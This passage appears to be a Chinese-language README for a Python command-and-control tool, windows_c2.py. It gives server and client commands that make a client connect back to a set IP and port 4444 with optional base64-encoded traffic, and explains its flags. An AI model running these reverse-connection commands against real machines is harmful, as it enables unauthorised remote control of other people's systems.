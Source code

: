 ### 用法

base64_server:

>python windows_c2.py -i 192.168.3.52 -p 4444 -e base64

base64_client:

>python windows_c2.py -p 4444 -e base64



server:

>python windows_c2.py -i 192.168.3.52 -p 4444

client:

>python windows_c2.py -i 192.168.3.52 -p 4444 



### 命令参数

>-i :    指定回连ip
>
>-p： 指定回连端口
>
>-l :     监听模式
>
>-e :   指定编码方式

目前仅支持base64 加密通讯，xor加密待完善。

这里对比上个版本进行了重构，并且修复了一些bug，加入了异常捕获。